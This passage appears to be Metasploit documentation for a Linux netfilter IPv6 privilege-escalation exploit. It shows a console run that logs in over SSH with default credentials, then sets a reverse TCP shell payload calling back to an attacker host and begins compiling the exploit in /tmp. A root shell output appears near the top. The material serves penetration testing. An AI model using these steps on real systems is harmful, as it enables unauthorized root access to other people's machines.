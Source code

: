     1618427772
    jdFSUosTqNJaVEMpzfzelTjcPBqRLSDd
    true
    qQjuuRQCackaoGwoOTaGakjgByjbScSd
    LBpvbVttOOyKxmcIvDlsHSxTwhIWNSkm
    vOtFHFXenciIGZVOZkXGuTVlWKVznFdV
    true
    EpBDmHRYATKXgsfFwsZbJuineFcLXXVW
    wYoOlFDLFoIUAhrTISAFhiLiOpVzzKTz
    xnVVXaIPZOaPhFoZucZfqGQAAHMtwZlr
    true
    qfURtnhwAJiMQPEQxQcHgZDTKTpjyOww
    rRdugFTnCVkKKPGcHJDYVzUsVNUutjGZ
    fPGGNfnIEHeZSDVqwHvffBgujeujRjrn
    whoami;uname -a
    root
    Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux

#### A full run against Ubuntu 14.04 with 4.2.0-27

    [*] Processing ipv6.rc for ERB directives.
    resource (ipv6.rc)> use auxiliary/scanner/ssh/ssh_login
    resource (ipv6.rc)> set rhosts 192.168.2.156
    rhosts => 192.168.2.156
    resource (ipv6.rc)> set username ubuntu
    username => ubuntu
    resource (ipv6.rc)> set password ubuntu
    password => ubuntu
    resource (ipv6.rc)> exploit
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare) Linux Ubuntu14 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.117:38201 -> 192.168.2.156:22) at 2016-10-25 15:27:38 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    resource (ipv6.rc)> use exploit/linux/local/netfilter_priv_esc_ipv6
    resource (ipv6.rc)> set verbose true
    verbose => true
    resource (ipv6.rc)> set payload linux/x64/shell/reverse_tcp
    payload => linux/x64/shell/reverse_tcp
    resource (ipv6.rc)> set session 1
    session => 1
    resource (ipv6.rc)> set target 1
    target => 1
    resource (ipv6.rc)> set lhost 192.168.2.117
    lhost => 192.168.2.117
    resource (ipv6.rc)> check
    [*] Checking if ip_tables is loaded in kernel
    [+] ip6_tables.ko is loaded
    [+] Kernel 4.2.0.pre.27.pre.generic is vulnerable
    [+] libc6-dev-i386 is installed
    [*]  The target appears to be vulnerable.
    resource (ipv6.rc)> exploit
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if ip_tables is loaded in kernel
    [+] ip6_tables.ko is loaded
    [+] Kernel 4.2.0.pre.27.pre.generic is vulnerable
    [+] libc6-dev-i386 is installed
    [*] Writing to /tmp/1B5WCsJQ.c (5207 bytes)
    [*] Max line length is 65537